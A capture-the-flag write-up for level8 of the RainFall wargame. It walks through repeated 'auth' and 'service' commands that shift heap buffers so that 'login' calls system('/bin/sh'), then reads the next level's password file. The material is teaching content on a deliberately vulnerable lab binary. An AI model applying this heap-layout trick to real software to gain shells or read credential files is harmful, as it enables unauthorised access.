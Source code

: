 ## Flag8 README: Finding Flag8

After connection on our vm with:
```bash
ssh level8@localhost -p 4242
```

We found a binary named level8. When we run it we obtain:
```sh
level8@RainFall:~$ ./level8 
(nil), (nil) 
```

Okay next step, decompile this program in order to understand what's the purpose and how to exploit it.

As you can see in our file [source](../source), program just printing adress of buffer auth and buffer service.
We can see on line 28 `system("/bin/sh")`, okay you find our target. If we manage to write into `auth + 8` then the program will run `/bin/sh`

Okay we have our plan but how can we manage to do so ?

So we simply tried the command `'auth '` which gave us:

```sh
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
```

Okay ...

This is the adress of our buffer `auth`. Okay let's try command `service` then:

```sh
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
```

service's adress is auth's adress + 16...
okay we need to add 16 again so let's just recall service and see what happen's:

```sh
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service 
0x804a008, 0x804a028 
```
Okay now let's try to run command `login`

```sh
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service 
0x804a008, 0x804a028 
login
$ 
```

And VOILA, our shell is runing with level9, as always we just need to **cat** the file **.pass** of level9.